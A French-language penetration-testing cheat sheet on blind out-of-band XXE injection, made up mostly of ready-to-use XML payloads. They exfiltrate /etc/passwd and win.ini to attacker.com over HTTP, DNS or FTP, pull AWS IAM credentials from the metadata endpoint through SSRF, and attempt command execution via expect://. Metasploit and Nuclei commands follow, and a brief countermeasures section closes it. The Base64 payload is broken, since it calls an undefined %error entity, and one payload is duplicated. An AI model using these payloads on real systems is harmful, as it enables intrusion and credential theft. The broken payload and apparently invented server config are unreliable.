

Le Blind XXE (Out-of-Band) survient lorsqu'une vulnérabilité XXE est présente mais que la réponse du serveur ne reflète pas directement le contenu du fichier chargé. L'exfiltration des données nécessite alors l'utilisation de canaux alternatifs comme HTTP, DNS ou FTP.



> [!info]
> Cette technique est étroitement liée aux concepts de **XXE Injection**, **SSRF**, **Web Application Enumeration** et l'utilisation de **Burp Suite Professional**.

## Méthodologie de test de la configuration du parser (libxml2, Xerces, etc.)

Avant d'exploiter, il est crucial d'identifier comment le parser traite les entités. La plupart des parsers modernes (libxml2 >= 2.9.0) désactivent les entités externes par défaut.

1. **Identification de la version** : Tenter de provoquer une erreur de parsing en injectant des caractères invalides pour voir si le serveur révèle la bibliothèque utilisée dans la stack trace.
2. **Test de support DTD** : Vérifier si le parser accepte les déclarations `<!DOCTYPE`.
3. **Test de support des entités externes** :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY % remote SYSTEM "http://attacker.com/test">
  %remote;
]>
<root>test</root>
```
Si le serveur effectue une requête HTTP vers `attacker.com`, le parser est vulnérable aux entités externes.

## Techniques de Parameter Entities (pour contourner les restrictions de parsing)

Les **Parameter Entities** (`%name;`) permettent de définir des entités qui ne sont interprétées que dans le contexte de la DTD. Elles sont indispensables pour construire des payloads complexes, notamment pour l'exfiltration de fichiers.

### Exemple de structure de payload dynamique
```xml
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<root>test</root>
```
*   `&#x25;` est l'encodage hexadécimal de `%`.
*   Cette technique force le parser à inclure le contenu du fichier dans une URL invalide, déclenchant une erreur contenant les données.

## Encodage des données (Base64) pour exfiltrer des fichiers binaires ou contenant des caractères spéciaux

Les fichiers contenant des caractères spéciaux (ex: `<`, `&`, `>`) brisent la structure XML. L'utilisation de filtres PHP permet d'encoder le contenu en Base64 avant l'exfiltration.

### Payload avec encodage Base64
```xml
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
  %eval;
  %error;
]>
<root>&send;</root>
```
*   Le fichier est lu sous forme encodée, ce qui garantit l'intégrité des caractères lors du transfert HTTP.
*   Une fois reçu, décoder avec : `echo "BASE64_DATA" | base64 -d`.

## Gestion des erreurs (Error-based XXE)

Si l'exfiltration OOB est bloquée par un pare-feu (Egress filtering), l'exfiltration peut être réalisée via les messages d'erreur générés par le parser.

### Exploitation via erreur de fichier inexistant
```xml
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<root>test</root>
```
*   Le parser tente d'ouvrir un fichier dont le chemin contient le contenu de `/etc/passwd`.
*   Le message d'erreur retourné par le serveur contiendra généralement le contenu du fichier cible.

## Détection de Blind XXE

La détection repose sur l'interaction forcée du serveur avec une infrastructure contrôlée par l'attaquant.

### Test via requête HTTP externe
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/log?xxe=test"> ]>
<root>&xxe;</root>
```

### Test via résolution DNS
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://xxe.attacker.com"> ]>
<root>&xxe;</root>
```

### Test via serveur FTP
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "ftp://attacker.com/xxe-test"> ]>
<root>&xxe;</root>
```

> [!warning] Prérequis : Nécessite un serveur contrôlé par l'attaquant (ex: Burp Collaborator, VPS avec listener netcat/python).

## Blind XXE avec Exfiltration de Fichiers

L'exfiltration consiste à inclure le contenu d'un fichier local dans l'URL d'une requête sortante.

### Lecture de fichiers sensibles
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY send SYSTEM "http://attacker.com/log?data=&xxe;">
]>
<root>&send;</root>
```

### Lecture de fichiers Windows
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
  <!ENTITY send SYSTEM "http://attacker.com/log?data=&xxe;">
]>
<root>&send;</root>
```

### Exfiltration via DNS
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY send SYSTEM "http://xxe.attacker.com/log?data=&xxe;">
]>
<root>&send;</root>
```

> [!danger] Attention : L'exfiltration de fichiers volumineux via DNS peut être instable ou bloquée par la taille des requêtes.
> [!note] Condition critique : Le succès de l'exfiltration dépend des permissions de l'utilisateur exécutant le service web.

## Blind XXE en Exploitation SSRF

Le parser XML peut être détourné pour effectuer des requêtes vers des ressources internes inaccessibles depuis l'extérieur.

### Scan de ports internes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:22"> ]>
<root>&xxe;</root>
```

### Accès aux services internes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin">
]>
<root>&xxe;</root>
```

### Récupération de métadonnées cloud (AWS)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<root>&xxe;</root>
```

## Blind XXE vers RCE

### Exécution de commandes via expect
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<root>&xxe;</root>
```

> [!danger] Danger : L'utilisation de 'expect://' est rare car nécessite l'extension PHP 'expect' installée et activée.

### Injection via php://input
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://input">
]>
<root>&xxe;</root>
```

## Automatisation de l’Exploitation

### Utilisation de outils dédiés
```bash
python3 xxe-injector.py -u "http://target.com/vuln.xml"
```

### Metasploit
```bash
msfconsole
use auxiliary/scanner/http/xxe
set RHOSTS target.com
set RPORT 80
run
```

### Nuclei
```bash
nuclei -t vulnerabilities/xxe/
```

### Monitoring des logs
```bash
tail -f /var/log/apache2/access.log
```

## Sécurité & Contre-Mesures

*   **Désactivation des entités** : `libxml_disable_entity_loader(true);`
*   **Utilisation de parsers sécurisés** : `import defusedxml.ElementTree as ET`
*   **Filtrage des entrées** : Interdire les mots-clés **SYSTEM** ou les caractères **&** dans les entrées utilisateur.
*   **Configuration serveur** :
```xml
<configuration>
  <system.xml>
    <security>
      <allow-external-entities>false</allow-external-entities>
    </security>
  </system.xml>
</configuration>
```
*   **WAF** : Déploiement de **ModSecurity** pour inspecter les payloads XML.